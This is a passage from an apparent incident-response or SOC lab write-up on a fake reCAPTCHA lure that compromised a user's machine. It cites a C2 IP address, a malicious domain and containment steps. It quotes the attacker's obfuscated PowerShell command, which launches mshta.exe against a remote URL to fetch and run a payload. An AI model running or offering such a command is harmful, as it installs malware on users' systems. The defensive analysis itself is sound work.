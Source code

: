 

<img src="https://i.imgur.com/0srryOU.png" height="80%" width="80%" alt="Virus Total Results"/>

---


<img src="https://i.imgur.com/W2DzoTg.png" height="80%" width="80%" alt="Virus Total Results"/>

---

Additionally, the Network Activity section revealed outbound traffic to an unfamiliar IP address: 132.232.40.201, further indicating that the system was contacting a Command and Control (C2) server.

---

<img src="https://i.imgur.com/AXeFlaz.png" height="80%" width="80%" alt="Virus Total Results"/>


In the Terminal History, we observed the following obfuscated PowerShell command:C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe -w 1 powershell -Command ('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']')

This command uses an obfuscation technique where the -replace function is used to hide the true execution of mshta.exe, and includes a message:"I am not a robot - reCAPTCHA Verification ID: 3824"
This could be a distraction or decoy meant to confuse defenders or mimic legitimate browser activity.

<img src="https://i.imgur.com/vff1zBb.png" height="80%" width="80%" alt="Virus Total Results"/>

---

<img src="https://i.imgur.com/Uu0q449.png" height="80%" width="80%" alt="Virus Total Results"/>

---

<img src="https://i.imgur.com/bJqUqfm.png" height="80%" width="80%" alt="Virus Total Results"/>

---

Finally, the Browser History confirmed that the domain https://windows-update.site/ was accessed on March 13, 2025, at 23:26:08, corroborating the timing of the attack.

---

<img src="https://i.imgur.com/OtqLByR.png" height="80%" width="80%" alt="Virus Total Results"/>

### 🔐 Containment

Once the full scope of compromise was identified, we **isolated Dylan’s system** to prevent:

- Further malware execution  
- Data exfiltration or loss  
- Lateral movement  
- Unauthorized access or potential ransomware staging
